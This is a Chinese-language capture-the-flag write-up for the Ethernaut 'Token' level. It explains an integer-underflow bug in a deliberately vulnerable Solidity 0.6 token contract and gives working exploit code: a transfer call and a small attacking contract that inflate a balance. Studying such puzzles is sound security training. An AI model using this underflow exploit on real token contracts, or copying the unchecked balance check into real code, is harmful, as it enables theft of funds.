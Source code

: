 # Ethernaut:05_Token
### 合約分析
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

    mapping(address => uint) balances;
    uint public totalSupply;
  
    constructor(uint _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }
  
    function transfer(address _to, uint _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
  
    function balanceOf(address _owner) public view returns (uint balance) {
        return balances[_owner];
    }
}
```

這個合約中有一個關鍵的漏洞在於 `transfer` 函數中的這一行：

```solidity
require(balances[msg.sender] - _value >= 0);
```

這個檢查表面上是用來確保轉帳金額 `_value` 不會超過 `msg.sender` 的餘額，但是，由於合約使用的是 Solidity 0.6.0 版本，這個版本的 Solidity 並沒有自動檢測溢位的功能。也就是說，如果 `balances[msg.sender]` 的值本來就很小，而你試圖轉出比餘額還多的代幣，這裡會發生 **下溢**（underflow）。

例如，假設 `balances[msg.sender]` 是 20，而 `_value` 是 21，這時 `balances[msg.sender] - _value` 會嘗試減去超過餘額的數字，結果會發生下溢，變成一個極大的正數，這樣就能通過 `require` 檢查，並導致你的餘額變成一個非常大的數字。

### Solutions

我們可以利用這個漏洞輕鬆地增加我們在合約中的餘額，步驟如下：

1. **確認初始餘額**：當合約部署時，合約會給你（玩家地址）一個初始的代幣數量，例如 20 個代幣。
2. **觸發下溢**：我們要利用 `transfer` 函數來觸發下溢。你可以執行如下操作：

```solidity
IToken(challengeInstance).transfer(challengeInstance, 21);
```

這裡 `challengeInstance` 是合約的地址，而 `21` 是我們想要轉出的代幣數量。由於你的餘額只有 20 個代幣，當你試圖轉出 21 個代幣時，會觸發下溢，讓你的餘額變成一個極大值。

3. **獲取大量代幣**：執行以上操作後，你的帳戶餘額會變成一個非常大的數字，這樣就能成功通關。

### 實際操作
```solidity
pragma solidity ^0.8.0;

interface IToken {
    function balanceOf(address) external view returns (uint256);
    function transfer(address to, uint256 value) external returns (bool);
}

contract Hack {
    constructor(address _target) {
        IToken(_target).transfer(msg.sender, 1);
    }
}
```
### 參考資料
- [YouTube - Ethernaut 05 - Token](https://youtu.be/IxSK_OMVqu4?si=dwDQuEuF3-yVqssU)

